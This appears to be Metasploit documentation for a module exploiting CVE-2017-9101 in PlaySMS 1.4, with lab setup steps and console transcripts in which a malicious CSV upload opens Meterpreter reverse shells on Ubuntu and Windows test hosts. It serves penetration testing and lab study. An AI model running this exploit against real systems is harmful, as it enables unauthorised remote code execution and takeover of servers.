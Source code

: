 ## Description
import.php (aka the Phonebook import feature) in PlaySMS 1.4 allows remote code execution via vectors involving the User-Agent HTTP header
and PHP code in the name of a file.	

CVE ID : CVE-2017-9101

## Vulnerable Application 
According To publicly exploit Disclosure of PlaySMS 1.4
this application is vulnerable to 'import.php' Remote Code Execution
read more : https://www.exploit-db.com/exploits/42044/


**Vulnerable Application Link** 
https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz

## Vulnerable Application Installation Setup.
Download Application : ```wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Extract..

Move In WebDirectory : ```mv playsms-1.4/web/* /var/www/html/```

Change Owner : ```chown -R www-data:www-data /var/www/html/```

Set DB creds in Config File. And dump playsms-1.4/db/playsms.sql in your playsms database.

Now Visit.
Visit : http://localhost/


**VulnHub Dina Machine**
Vulnhub machine : https://www.vulnhub.com/entry/dina-101,200/

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/playsms_uploadcsv_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set targeturi SecreTSMSgatwayLogin`
  6. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
  7. Do: `set lport <port>`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios
**Playsms on Ubuntu Linux**
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.7
rhost => 10.22.1.7
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi SecreTSMSgatwayLogin
targeturi => SecreTSMSgatwayLogin
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.7:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf exploit(multi/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf exploit(multi/http/playsms_uploadcsv_exec) > set lhost 10.22.1.3 
lhost => 10.22.1.3
msf exploit(multi/http/playsms_uploadcsv_exec) > run 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : c9ad6a45cd206228554b237985b344ef
[*] Trying to Login ......
[+] Authentication successful: touhid:diana
[+] X-CSRF-Token for upload : 112cd5ecbdf12daf60391609d19ae3d6
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.7
[*] Meterpreter session 2 opened (10.22.1.3:4444 -> 10.22.1.7:56580) at 2018-03-25 17:42:43 +0530

meterpreter > sysinfo 
Computer    : Dina
OS          : Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686
Meterpreter : php/linux
meterpreter > 

```
**Playsms on Windows 7**
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.9
rhost => 10.22.1.9 
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi web
targeturi => web
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.9:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username test
username => test
msf exploit(multi/http/playsms_uploadcsv_exec) > set password metasploit
password => metasploit
msf exploit(multi/http/playsms_uploadcsv_exec) > set verbose true
verbose => true
msf exploit(multi/http/playsms_uploadcsv_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : cf467bf4829b355a5f4f2964e853ff2c
[*] Trying to Login ......
[+] Authentication successful: test:metasploit
[+] X-CSRF-Token for upload : 3aca00c2d6a5988ed74fa7d992e14904
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.9
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.9:50065) at 2018-03-25 17:27:57 +0530

meterpreter > sysinfo 
Computer    : TOUHID-PC
OS          : Windows NT TOUHID-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 

```
